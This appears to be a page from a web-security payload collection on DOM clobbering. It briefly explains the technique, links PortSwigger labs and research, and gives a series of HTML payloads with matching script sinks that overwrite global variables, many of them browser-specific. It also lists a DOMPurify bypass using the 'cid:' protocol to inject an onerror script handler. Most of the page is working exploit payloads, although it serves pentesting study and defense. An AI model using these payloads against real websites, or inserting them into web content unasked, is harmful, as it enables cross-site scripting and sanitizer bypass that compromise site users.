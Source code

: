 # Dom Clobbering

> DOM Clobbering is a technique where global variables can be overwritten or "clobbered" by naming HTML elements with certain IDs or names. This can cause unexpected behavior in scripts and potentially lead to security vulnerabilities.

## Summary

* [Lab](#lab)
* [Exploit](#exploit)
* [References](#references)


## Lab

* [Lab: Exploiting DOM clobbering to enable XSS](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-xss-exploiting-dom-clobbering)
* [Lab: Clobbering DOM attributes to bypass HTML filters](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-clobbering-attributes-to-bypass-html-filters)
* [Lab: DOM clobbering test case protected by CSP](https://portswigger-labs.net/dom-invader/testcases/augmented-dom-script-dom-clobbering-csp/)


## Exploit

Exploitation requires any kind of `HTML injection` in the page.

* Clobbering `x.y.value`
    ```html
    // Payload
    <form id=x><output id=y>I've been clobbered</output>

    // Sink
    <script>alert(x.y.value);</script>
    ```

* Clobbering `x.y` using ID and name attributes together to form a DOM collection
    ```html
    // Payload
    <a id=x><a id=x name=y href="Clobbered">

    // Sink
    <script>alert(x.y)</script>
    ```

* Clobbering `x.y.z` - 3 levels deep
    ```html
    // Payload
    <form id=x name=y><input id=z></form>
    <form id=x></form>

    // Sink
    <script>alert(x.y.z)</script>
    ```

* Clobbering `a.b.c.d` - more than 3 levels
    ```html
    // Payload
    <iframe name=a srcdoc="
    <iframe srcdoc='<a id=c name=d href=cid:Clobbered>test</a><a id=c>' name=b>"></iframe>
    <style>@import '//portswigger.net';</style>

    // Sink
    <script>alert(a.b.c.d)</script>
    ```

* Clobbering `forEach` (Chrome only)
    ```html
    // Payload
    <form id=x>
    <input id=y name=z>
    <input id=y>
    </form>

    // Sink
    <script>x.y.forEach(element=>alert(element))</script>
    ```

* Clobbering `document.getElementById()` using `<html>` or `<body>` tag with the same `id` attribute
    ```html
    // Payloads
    <html id="cdnDomain">clobbered</html>
    <svg><body id=cdnDomain>clobbered</body></svg>


    // Sink 
    <script>
    alert(document.getElementById('cdnDomain').innerText);//clobbbered
    </script>
    ```

* Clobbering `x.username`
    ```html
    // Payload
    <a id=x href="ftp:Clobbered-username:Clobbered-Password@a">

    // Sink
    <script>
    alert(x.username)//Clobbered-username
    alert(x.password)//Clobbered-password
    </script>
    ```

* Clobbering (Firefox only)
    ```html
    // Payload
    <base href=a:abc><a id=x href="Firefox<>">

    // Sink
    <script>
    alert(x)//Firefox<>
    </script>
    ```

* Clobbering (Chrome only)
    ```html
    // Payload
    <base href="a://Clobbered<>"><a id=x name=x><a id=x name=xyz href=123>

    // Sink
    <script>
    alert(x.xyz)//a://Clobbered<>
    </script>
    ```


## Tricks

* DomPurify allows the protocol `cid:`, which doesn't encode double quote (`"`): `<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">`


## References

- [Bypassing CSP via DOM clobbering - Gareth Heyes - 05 June 2023](https://portswigger.net/research/bypassing-csp-via-dom-clobbering)
- [DOM Clobbering - HackTricks - January 27, 2023](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-clobbering)
- [DOM Clobbering - PortSwigger - September 25, 2020](https://portswigger.net/web-security/dom-based/dom-clobbering)
- [DOM Clobbering strikes back - Gareth Heyes - 06 February 2020](https://portswigger.net/research/dom-clobbering-strikes-back)
- [Hijacking service workers via DOM Clobbering - Gareth Heyes - 29 November 2022](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)